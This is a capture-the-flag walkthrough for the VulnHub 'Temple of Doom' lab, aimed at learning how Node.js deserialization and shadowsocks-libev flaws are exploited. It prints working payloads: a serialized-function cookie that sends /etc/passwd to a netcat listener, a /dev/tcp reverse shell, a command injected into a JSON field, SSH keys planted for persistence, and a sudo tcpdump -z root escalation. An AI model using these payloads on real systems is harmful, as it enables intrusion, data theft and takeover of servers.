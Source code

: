 # TEMPLE OF DOOM

**URL: https://www.vulnhub.com/entry/temple-of-doom-1,243/**

### NMAP  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-13 09:02 UTC  
>Nmap scan report for 192.168.111.3  
>Host is up (0.00044s latency).  
>Not shown: 998 closed ports  
>PORT    STATE SERVICE VERSION  
>22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)  
>| ssh-hostkey:   
>|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)  
>|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)  
>|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)  
>666/tcp open  http    Node.js Express framework  
>|_http-title: Site doesn't have a title (text/html; charset=utf-8).  
>MAC Address: 08:00:27:BB:24:1C (Oracle VirtualBox virtual NIC)  
>Device type: general purpose  
>Running: Linux 3.X|4.X  
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
>OS details: Linux 3.2 - 4.9  
>Network Distance: 1 hop  


### FIRST STEP: HTTP Cookie  

When we access the http service of the server we get the following message: "Under Construction, Come Back Later!". But, the second request throws an exception.
Reading the output of the error we know that there's something wrong with the unserialization of the cookie. If we decode the cookie we get something like:  

>{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires **\=\"\:** Friday, 13 Oct 2018 00:00:00 GMT"}  

We see that there's an error in the json format. When we correct this we get a "Hello Admin" message.  

Searching a bit, we find these document:  

https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf  

With this information, and playing with the output, we edit the exploit to make it work. In order to make it easier, we create a script to encode the requests:  

root@kali:~# cat cookie.py   

>import sys  
>import base64  
>  
>COOKIE='{"rce":"test","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires":"Friday, 13 Oct 2018 00:00:00 GMT","username":"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'cat /etc/passwd | nc 192.168.111.4 8888\', function(error, stdout, stderr) { console.log(stdout) }); }()"}'  
>  
>print base64.b64encode(COOKIE)  


With this cookie, we make a request to the server:  

>root@kali:~# curl -H "Cookie: profile=$(python cookie.py)" "http://192.168.111.3:666/"  

And we get the content of /etc/passwd:  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41624  
>root\:x\:0:0:root:/root:/bin/bash  
>...  
>nodeadmin\:x\:1001:1001::/home/nodeadmin:/bin/bash  
>fireman\:x\:1002:1002::/home/fireman:/bin/bash  

### SECOND STEP: REVERSE SHELL  

Now, let's get our reverse shell. With the following code:  
  
>"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'/bin/bash -i >& /dev/tcp/192.168.111.4/8888 0>&1 \', function(error, stdout, stderr) { console.log(stdout) }); }()"  

We get our shell. But the first thing is getting an interactive shell, so let's exchange SSH keys and open a proper shell.  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41628  
>bash: cannot set terminal process group (806): Inappropriate ioctl for device  
>bash: no job control in this shell  
>[nodeadmin@localhost ~]$   
>[nodeadmin@localhost ~]$ uname -a  
>Linux localhost.localdomain 4.16.3-301.fc28.x86_64 #1 SMP Mon Apr 23 21:59:58 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
>[nodeadmin@localhost ~]$ mkdir .ssh  
>[nodeadmin@localhost ~]$ chmod 700 .ssh  
>[nodeadmin@localhost ~]$ chmod 600 .ssh/authorized_keys  
>[nodeadmin@localhost ~]$ echo 'ssh-rsa AAAA...jf root@kali' > /home/nodeadmin/.ssh/authorized_keys  

Now we can login via SSH without being asked for the password.  

After trying harder, and harder... we look for stuff from the other user in the system until we find something interesting:  

[nodeadmin@localhost ~]$ grep -riI fireman /etc/  
>/etc/rc.d/rc.local:#su fireman -c /usr/local/bin/ss-manager  

We run "/usr/local/bin/ss-manager --help" and read that it's "shadowsocks-libev 3.1.0". Looking for info about this binary we find the following:  

https://www.x41-dsec.de/lab/advisories/x41-2017-010-shadowsocks-libev/  

There's a RCE vulnerability with this version. So after a lot of tests, we end up changing our crontab and adding the following line:  

[nodeadmin@localhost ~]$ crontab -l
>@reboot /bin/node /home/nodeadmin/.web/server.js &  
>**@reboot su fireman -c /usr/local/bin/ss-manager**  

We reboot the machine and find another port open, where it's running the ss-manager. So, we exploit this vulnerability to gain access as **fireman**:  

[nodeadmin@localhost ~]$ nc -u 127.0.0.1 8839  
>add: {"server_port":8003, "password":"test", "method":"||echo 'ssh-rsa AAAA...jf root@kali' > /home/fireman/.ssh/authorized_keys"}**ok**  

### THIRD STEP: PRIVILEGE ESCALATION 

And we get an OK. So now, we can login with fireman through SSH. Let's explore this way. Quickly we find that fireman can execute some stuff as root:

[fireman@localhost ~]$ sudo -l  
>Matching Defaults entries for fireman on localhost:  
>    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1  
>    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT  
>    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL  
>    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",  
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
>  
>User fireman may run the following commands on localhost:  
>    (ALL) NOPASSWD: /sbin/iptables  
>    (ALL) NOPASSWD: /usr/bin/nmcli  
>    (ALL) NOPASSWD: /usr/sbin/tcpdump  


nmcli? Where have I heard that before? **CVE-2018-1111**. And judging by the iptables config, it makes sense that we have to disable it first to exploit this vulnerability.  

[fireman@localhost ~]$ sudo iptables -L  
>Chain INPUT (policy ACCEPT)  
>target     prot opt source               destination           
>DROP       udp  --  anywhere             anywhere             udp spt:bootps dpt:bootpc  
>  
>Chain FORWARD (policy ACCEPT)  
>target     prot opt source               destination           
>  
>Chain OUTPUT (policy ACCEPT)  
>target     prot opt source               destination    

Here is a demo:

https://twitter.com/Barknkilic/status/996470756283486209  

But, let's explore another way. Why tcpdump? Reading the man page, we see some interesing flags: "[ -z postrotate-command ] [ -Z user ]"  

Let's try this. Creating a small script to do the same as before:  

[fireman@localhost ~]$ cat RCE  
>#/bin/bash  
>echo 'ssh-rsa AAA...zdzjf root@kali' > /root/.ssh/authorized_keys  

And executing it after a 1 second of capture.   

[fireman@localhost ~]$ sudo tcpdump -i eth0 -G 1 -z ./RCE -Z root  

Bingo, that was one way. Now we can login as root and read the flag:  

root@kali:~# ssh -l root 192.168.111.3  
>Last failed login: Sat Jul 14 15:06:59 EDT 2018  
>There were 3 failed login attempts since the last successful login.  
>Last login: Thu Jun  7 23:14:57 2018 from 192.168.2.15  
>[root@localhost ~]# id  
>uid=0(root) gid=0(root) groups=0(root)  
>[root@localhost ~]# ls -lrth  
>total 4.0K  
>-rw-r--r-- 1 root root 2.0K Jun  7 23:16 flag.txt  

